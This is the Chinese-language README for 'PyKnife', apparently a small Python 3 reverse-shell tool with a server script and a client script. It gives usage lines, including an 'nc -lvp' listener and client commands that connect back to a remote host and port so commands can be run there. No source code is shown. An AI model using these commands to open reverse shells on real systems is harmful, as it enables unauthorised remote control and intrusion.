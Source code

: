 # PyKnife 

> 一款基于sockt通信的小工具，主要用于反弹shell进行命令执行

> 目前是基于Python3写的，全部使用Py3内置库，后面再考虑更新py2语法版本（Py2内置未包含chardet比较烦）
----

### 使用方法：

该工具分为服务端 s.py 和客户端 c.py

1、服务端先监听，s.py 未写参数方法，需要修改代码来修改监听主机:端口，另外由于有BUG暂未修复。

因此强烈推荐使用 *nc -lvp [port]* 进行服务端监听

2、客户端 c.py 反向连接服务端
  支持长短参数
  
  ```shell
  c.py -h
  c.py -d 127.0.0.1 -p 8000
  c.py --host 8.8.8.8 --port 6789
  ```

